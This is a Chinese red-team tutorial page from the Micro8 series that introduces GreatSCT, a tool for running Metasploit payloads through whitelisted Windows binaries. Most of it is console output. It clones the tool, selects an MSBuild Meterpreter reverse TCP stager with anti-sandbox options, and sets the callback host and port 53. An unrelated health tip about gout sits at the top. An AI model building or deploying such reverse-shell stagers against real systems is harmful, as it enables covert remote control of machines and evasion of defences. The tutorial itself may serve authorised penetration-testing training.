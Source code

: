 ```yaml
---
title: 18、红蓝对抗渗透测试3
date: 2019-09-21 19:04:15
comments: true
categories: 
 - Micro8系列
---
```



**注：**请多喝点热水或者凉白开，可预防**肾结石，通风**等。
痛风可伴发肥胖症、高血压病、糖尿病、脂代谢紊乱等多种代谢性疾病。

工具介绍：  
https://github.com/GreatSCT/GreatSCT

### 简介：  

GreatSCT 是以 metasploit payload 为核心，白名单辅助 payload 执行框架。
```code
root@John:~# git clone https://github.com/GreatSCT/GreatSCT.git
Cloning into 'GreatSCT'...
remote: Enumerating objects: 727, done.
remote: Total 727 (delta 0), reused 0 (delta 0), pack‐reused 727
Receiving objects: 100% (727/727), 10.64 MiB | 572.00 KiB/s, done.
Resolving deltas: 100% (384/384), done.
```  
![](../do/media/4b7b7364cadb4717086ebb5019db2199.jpg)

![](../do/media/3e2f95599ea725fbaf324c19d0844a99.jpg)

![](../do/media/9e50f5e8220ad366afb664445e12f599.jpg)

![](../do/media/60d66478b636b2723607a4b90056e499.jpg)

```code
===========================================================================
Great Scott!
===========================================================================
[Web]: https://github.com/GreatSCT/GreatSCT | [Twitter]: @ConsciousHacker
===========================================================================

Payload information: 

Name: Pure MSBuild C# Reverse TCP Stager
Language: msbuild
Rating: Excellent
Description: pure windows/meterpreter/reverse_tcp stager, no
shellcode 

Payload: msbuild/meterpreter/rev_tcp selected 

Required Options: 

Name Value Description
‐‐‐‐ ‐‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐
DOMAIN X Optional: Required internal domain
EXPIRE_PAYLOAD X Optional: Payloads expire after "Y" days
HOSTNAME X Optional: Required system hostname
INJECT_METHOD Virtual Virtual or Heap
LHOST IP of the Metasploit handler
LPORT 4444 Port of the Metasploit handler
PROCESSORS X Optional: Minimum number of processors
SLEEP X Optional: Sleep "Y" seconds, check if accelerated
TIMEZONE X Optional: Check to validate not in UTC
USERNAME X Optional: The required user account

Available Commands: 

back Go back
exit Completely exit GreatSCT
generate Generate the payload
options Show the shellcode's options
set Set shellcode option 

[msbuild/meterpreter/rev_tcp>>] set LHOST 192.168.1.4 41

[msbuild/meterpreter/rev_tcp>>] set LPORT 53 
```
>   Micropoor
